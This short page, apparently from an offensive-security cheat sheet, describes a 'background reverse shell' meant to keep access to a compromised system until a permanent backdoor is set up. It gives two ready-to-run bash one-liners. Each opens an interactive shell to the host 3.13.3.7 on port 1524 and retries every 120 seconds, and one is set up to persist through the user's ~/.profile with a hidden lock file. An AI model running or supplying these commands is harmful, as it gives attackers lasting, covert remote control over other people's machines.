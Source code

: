 # Background Reverse Shell

A persistent reverse shell that attempts to reconnect to our system every 120 seconds without a time limit. Frequently utilized as a temporary solution until a permanent backdoor is established, ensuring seamless re-entry into a system in the event of a disconnection from our end.

`setsid bash -c 'while :; do bash -i &>/dev/tcp/3.13.3.7/1524 0>&1; sleep 120; done' &>/dev/null`

or the user's ~/.profile (also stops multiple instances from being started):

`fuser /dev/shm/.busy &>/dev/null || nohup /bin/bash -c 'while :; do touch /dev/shm/.busy; exec 3</dev/shm/.busy; bash -i &>/dev/tcp/3.13.3.7/1524 0>&1 ; sleep 120; done' &>/dev/null &`
